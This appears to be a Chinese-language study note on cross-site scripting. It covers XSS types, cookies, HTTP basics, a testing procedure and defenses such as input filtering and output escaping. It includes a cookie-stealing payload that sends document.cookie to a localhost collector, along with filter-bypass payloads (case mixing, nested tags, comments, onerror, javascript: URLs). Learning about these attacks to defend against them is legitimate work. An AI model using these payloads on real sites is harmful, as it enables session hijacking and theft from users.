# XSS 跨站脚本 Cross Site Script

## 危害

1. 冒充身份
2. 刷点击
3. 弹广告
4. 传播蠕虫病毒

## 防止

（规则引擎， WAF 规则库） 防火墙

- 输入 （正则表达 匹配）

  - 1. 定义恶意脚本，格式
  - 2. 对脚本的各种变形也要识别

- 输出
  - 转意处理

## 介绍

webd 页面在展示数据时用户输入的内容，但是未做过滤和输出转译，导致黑客可通过参数传递恶意代码，当用户浏览页面时恶意代码就会执行。

## 跨站脚本攻击的三种方式

### 反射型跨站脚本攻击

（非持久性的）
攻击者会通过特别的手段，引诱你点击 URL 链接用户打开，在用户打开的页面的时候，浏览器会执行页面中嵌入的恶意脚本

自动攻击（留言部分）

- 提交代码到数据库中
- 查询数据库

### 存储型跨站脚本攻击

攻击者利用 web 应用提供的输入或则修改数据的功能，将数据存到服务器中或则用户的 cookie 中，当其他用户浏览该展示的数据时的页面，浏览器会之星页面中嵌入的恶意脚本，所有的浏览者都会受到攻击。

### DOM 型跨站脚本攻击

由于 html 页面，定义了一段 js, 根据用户信息的输入，显示一段 html 代码，攻击者可以在输入时，插入一段恶意脚本，最终在展示时，会执行恶意脚本。

dom 跨站和以上两个跨站的差别是，DOM 跨站是纯纯页面脚本的输出，只有规范使用 javascript，才可以防御。

### 存储型 XSS 攻击是如何实现的？

cookie （内存）

- 明文
- 可修改
- 大小限制

cookie 用途

- 记住登录状态
- 跟踪用户行为

session 保存在哪里？（服务端：临时文件）

**如何远程获取 cookie**

- 获取 cookie document.cookie
- 设置读取 cookie document.cookie=""
- 修改 （按名字覆盖）
- 删除 设置过期时间

http 基础
请求相关

- 请求方法
- 请求 URL
- http 协议版本
- 报文头
- 报文体

响应

- 报文协议及版本
- 状态码及状态描述
- 相应头
- 响应体

http 特点

- 请求应答模式 (2.0 存在 push 模式)
- 灵活可扩展
- 可靠传输
- 无状态

## 测试流程

- 在目标站点找到输入点，比如查询接口，留言板
- 输入一组 “特殊字符 + 唯一字符”， 点击提交后，查看返回的的源码，是否有做对应的处理
- 通过搜索定位到唯一的字符，结合唯一字符前后语法是否可以构造可执行的 JS 的条件（构造闭合条件）
- 提交构造的脚本代码（以及各种绕过姿势）看是否可以成功执行，如果执行则说明存在 xss 漏洞

tips:

- 一般查询接口容易出现反射型 XSS，留言板容易出现存储型 XSS；
- 由于后台可能存在过滤措施，构成的 script 可能被过滤掉，而无法生效或则环境限制了执行（浏览器）
- 通过变化不同 script，尝试绕过后台的过滤机制。

以下标签不受同源策略限制

- <script src="" >
- <img src="" >
- <link href="" >
- <iframe src="" >

## payload

```js
<script>
window.location = 'http://localhost:3000/api/setCookie/?cookie=' + document.cookie;
<script>
const origin = window.location.origin;
const refer = document.referrer;
window.location = 'http://localhost:3000/api/setCookie/?cookie=' + document.cookie+ '&refer='+refer+'&origin='+origin;
</script>
```

## xss的绕过处理
- 前端限制绕过，直接抓包重放，或者直接修改html代码
- 大小写，比如：<scRipT>alerT(111)</scRipT>
- 拼凑：<scr<scritp>ipt>alert(1)</scr</script>itp>
- 使用注释干扰： <sc<!--test-->ript>alert(1)</sc<!--test-->ipt>

核心思路：
后台顾虑了特殊字符，比如<script></script>标签可以被编译成各种编码，后台不一定会过滤当浏览器对该编码识别时，会翻译成正常的标签 从而执行。

（在使用编码时，需要注意编码在输出点是否会被正常识别和翻译）


```js
<img src=x onerror="alert(1)" /> // 进行url编码("alert(1))可执行吗？ 错误例子

<img src=x onerror="alert(1)" /> 使用html编码
```

输入做过滤，输出做转义


payload
```js
javascrpt:alert(1)
```

防范措施
a 标签， href如何（处理）
1. 只允许https/http协议的
2. 其次html的一些特殊符号的处理
